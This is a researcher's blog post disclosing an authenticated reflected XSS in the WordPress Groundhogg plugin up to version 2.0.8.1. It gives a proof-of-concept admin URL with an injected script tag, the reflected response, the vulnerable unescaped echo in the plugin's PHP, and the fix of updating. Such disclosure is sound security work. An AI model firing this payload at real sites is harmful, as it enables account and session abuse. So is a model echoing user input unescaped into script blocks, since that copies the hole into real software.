 ```yaml
---
layout: post
title: Wordpress Groundhogg <= 2.0.8.1 Authentificated Reflected XSS
date: 2019-10-23 15:50 -0300
categories: [my_exploits, offensive_security]
tags: [ exploit, vulnerability, reflected xss, Cross-site scripting (reflected), Groundhogg, Authenticated]
---
```


![Wordpress Groundhogg <= 2.0.8.1 Authenticated Reflected XSS](/uploads/Screenshot from 2019-10-23 18-17-25.png)

Wordpress Groundhogg plugin with a version lower then 2.0.8.1 is affected by an authenticated Reflected Cross-site scripting (XSS) vulnerability.

#### Intial submission of the vulnerability

``````markdown
# Exploit Title: Wordpress Groundhogg <= 2.0.8.1 Authenticated Reflected XSS Vulnerability
# Date: 22-10-2019
# Exploit Author: Lucian Ioan Nitescu
# Contact: https://twitter.com/LucianNitescu
# Webiste: https://nitesculucian.github.io
# Vendor Homepage: https://www.groundhogg.io/
# Software Link: https://wordpress.org/plugins/groundhogg/
# Version: 2.0.8.1
# Tested on: Ubuntu 18.04 / Wordpress 5.3
 
1. Description:  
 
Wordpress Groundhogg plugin with a version lower then 2.0.8.1 is affected by an authenticated Reflected Cross-site scripting (XSS) vulnerability.

2. Proof of Concept: 
 
Reflected Cross-site scripting (XSS)
- Using an Wordpress user, access < your_target > /wp-admin/admin.php?page=gh_bulk_jobs&action=gh_export_contacts<%2Fscript><script>alert(1)<%2Fscript>
- The response will contain:

```
bulk_action: 'groundhogg/bulk_job/gh_export_contacts</script><script>alert(1)</script>/ajax', items: bp.getItems(), the_end: bp.isLastOfThem() },
```

``````

#### Detailed analysis of the vulnerability

On `wp-content/plugins/groundhogg/includes/admin/bulk-jobs/class-wpgh-admin-bulk-job.php` at line `217`, we can observe that in the middle of `<script> ... </script>` tags there is an unescaped echo of user-supplied data in the form of URL paths. 

```
$.ajax({
    type: "post",
    url: ajaxurl,
    dataType: 'json',
    data: { action: 'bulk_action_listener', bulk_action: '<?php echo "groundhogg/bulk_job/{$this->get_action()}/ajax" ?>', items: bp.getItems(), the_end: bp.isLastOfThem() },
    success: function( response ){
```

This vulnerability could be easily exploited by accessing `example.com/wp-admin/admin.php?page=gh_bulk_jobs&action=gh_export_contacts<%2Fscript><script>alert(1)<%2Fscript>` where `example.com` is your target.

#### How to fix

Update to the latest available version of the Groundhogg plugin.

#### Public appearances

- tba

#### Other references

- Thanks to [@pluginvulns](https://twitter.com/pluginvulns) for this: [https://twitter.com/pluginvulns/status/1187108581839007744](https://twitter.com/pluginvulns/status/1187108581839007744)
